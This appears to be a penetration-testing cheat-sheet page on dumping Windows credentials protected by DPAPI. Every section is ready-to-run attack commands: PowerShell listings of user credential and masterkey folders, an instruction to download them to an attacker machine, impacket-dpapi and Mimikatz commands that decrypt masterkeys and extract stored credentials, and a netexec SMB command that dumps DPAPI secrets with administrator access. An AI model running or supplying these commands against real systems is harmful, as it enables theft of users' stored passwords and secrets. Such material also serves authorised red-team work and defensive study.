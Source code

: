 ```yaml
---
description: Credentials Dumping from Data Protection API
---
```


# DPAPI

## From Low Users

### Manual Approach

Locating credential files:

{% code overflow="wrap" %}
```powershell
dir /A C:\Users\yuyudhn\AppData\Local\Microsoft\Credentials\
dir /A C:\Users\yuyudhn\AppData\Roaming\Microsoft\Credentials\
Get-ChildItem -Force C:\Users\yuyudhn\AppData\Local\Microsoft\Credentials\
Get-ChildItem -Force C:\Users\yuyudhn\AppData\Roaming\Microsoft\Credentials\
```
{% endcode %}

Locating masterkeys:

```powershell
dir /A C:\Users\yuyudhn\AppData\Roaming\Microsoft\Protect\
dir /A C:\Users\yuyudhn\AppData\Local\Microsoft\Protect\
Get-ChildItem -Force C:\Users\yuyudhn\AppData\Roaming\Microsoft\Protect\
Get-ChildItem -Force C:\Users\yuyudhn\AppData\Local\Microsoft\Protect\
```

Usually, the structure is like this:

{% code overflow="wrap" %}
```
C:\Users\$USER\AppData\Roaming\Microsoft\Protect\$SUID\$GUID
```
{% endcode %}

Download all credential files and masterkeys to attacker machine. And then extract the credentials using impacket-dpapi.

Decrypt masterkey

{% code overflow="wrap" %}
```bash
impacket-dpapi masterkey -file $masterkey -sid $SID -password Password1213!
```
{% endcode %}

Or if you have the backup key:

```bash
impacket-dpapi masterkey -file $masterkey -sid $SID -pvk key.pvk
```

Grab credentials:

{% code overflow="wrap" %}
```bash
impacket-dpapi credential -file $credsfile -key $decryptedkey
```
{% endcode %}

### Mimikatz

{% code overflow="wrap" %}
```powershell
Invoke-Mimikatz -Command '"dpapi::masterkey /in:C:\Users\yuyudhn\AppData\Roaming\Microsoft\Protect\$SID\$GID /sid:$SID /password:Password1337 /protected" "exit"'
```
{% endcode %}

{% code overflow="wrap" %}
```powershell
Invoke-Mimikatz -Command '"dpapi::cred /in:C:\Users\yuyudhn\AppData\Roaming\Microsoft\Credentials\$credsfile /masterkey:$decryptedkey"'
```
{% endcode %}

## From Administrator

{% code overflow="wrap" %}
```bash
netexec smb target.local -u Administrator -p Password123 --local-auth --dpapi
```
{% endcode %}
